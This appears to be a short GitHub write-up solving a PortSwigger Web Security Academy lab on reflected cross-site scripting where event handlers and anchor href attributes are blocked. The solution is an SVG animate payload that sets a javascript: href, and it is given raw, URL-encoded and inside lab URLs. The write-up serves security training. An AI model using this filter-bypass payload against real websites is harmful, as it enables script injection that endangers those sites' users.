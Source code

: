 # Reflected XSS with event handlers and `href` attributes blocked

## This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked..

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a vector that, when clicked, calls the `alert` function.

### Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

## `<a href="">Click me</a>`

![screenshot](./images/lab25.png)

`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`
url encoded
`%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

`https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

`https://0aa4001a03cd610e814b52b400050079.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

### step1

search the below html code to solve the lab

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```
